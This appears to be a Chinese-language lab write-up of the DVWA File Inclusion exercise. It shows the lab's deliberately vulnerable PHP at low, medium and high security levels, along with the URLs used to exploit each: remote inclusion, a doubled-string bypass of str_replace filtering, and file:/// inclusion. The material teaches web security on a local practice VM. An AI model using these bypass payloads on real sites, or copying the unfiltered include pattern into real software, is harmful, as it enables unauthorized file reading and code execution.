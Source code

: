 
---
## File Inclusion
### low
文件包含漏洞，可移植性任意文件，包括服务器本地文件和远程文件
```php
<?php

// The page we wish to display
$file = $_GET[ 'page' ];

?>


```

![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250314204935.png)
没有对文件做过滤并且会返回文件路径，
```
192.168.254.128/DVWA/vulnerabilities/fi/?page=http://127.0.0.1/DVWA/phpinfo.php
```

---

### Medium
```php
<?php

// The page we wish to display
$file = $_GET[ 'page' ];

// Input validation
$file = str_replace( array( "http://", "https://" ), "", $file );
$file = str_replace( array( "../", "..\\" ), "", $file );

?>
```
`str_replace( array( "http://", "https://" ), "", $file );`:这个函数会将htt://p和https://替换为空格，遇到这类的替换函数我们可以用双写绕过
```url
http://192.168.254.128/DVWA/vulnerabilities/fi/?page=htthttp://p://192.168.254.128/DVWA/login.php
```
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250319215554.png)


---
### High
```php
$file = $_GET[ 'page' ];

// Input validation
if( !fnmatch( "file*", $file ) && $file != "include.php" ) {
```
在输入的参数存在file开头的语句时，会返回true，否则为false，同时，检测到file不为include.php时为true
尝试包含ma.php
```
**Warning**: include(file:///root/ma.php): Failed to open stream: Permission denied in **/var/www/html/DVWA/vulnerabilities/fi/index.php** on line **36**  
  
**Warning**: include(): Failed opening 'file:///root/ma.php' for inclusion (include_path='.:/usr/share/php') in **/var/www/html/DVWA/vulnerabilities/fi/index.php** on line **36**
```
发现没有权限(笑)
`chmod +x ...`一路绿灯终于成功